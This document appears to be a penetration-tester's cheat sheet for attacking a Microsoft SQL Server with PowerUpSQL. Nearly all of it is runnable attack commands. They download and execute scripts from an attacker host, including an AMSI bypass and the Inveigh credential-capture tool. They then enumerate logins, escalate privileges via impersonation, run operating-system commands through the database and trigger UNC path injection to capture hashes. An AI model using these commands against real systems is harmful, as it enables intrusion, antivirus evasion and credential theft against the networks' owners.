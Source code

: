 # PowerUpSQL

Backup if all else fails

### 1) Open powershell shell

    shell


### 2) Load the scripts 

    IEX(New-Object Net.webclient).downloadString("http://10.10.10.11/powershell-scripts/amsi.txt")
    IEX(New-Object Net.webclient).downloadString("http://10.10.10.11/powershell-scripts/PowerUpSQL.ps1")
    IEX(New-Object Net.webclient).downloadString("http://10.10.10.11/powershell-scripts/Inveigh.ps1")


### 3) Run SQL Queries for enumeration

    Get-SQLQuery -Instance "192.168.130.10" -Query "select @@servername"
    Get-SQLQuery -Instance "192.168.130.10" -Query "SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;"
    Get-SQLQuery -Instance "192.168.130.10" -Query "EXECUTE AS login = 'webuser'; SELECT SYSTEM_USER;"


### 4) Escalate privs using impersonation and run command

    Invoke-SQLEscalatePriv -Verbose -Instance 192.168.130.10
    Invoke-SQLOSCmd -Instance 192.168.130.10 -Command "whoami"


### 5) Run SQL Queries for checking impersonation

    Get-SQLQuery -Instance "192.168.130.10" -Query "SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;"


### 6) UNC Lookup

    Invoke-SQLUncPathInjection -Instance 192.168.130.10 -Verbose -CaptureIp 10.10.10.11
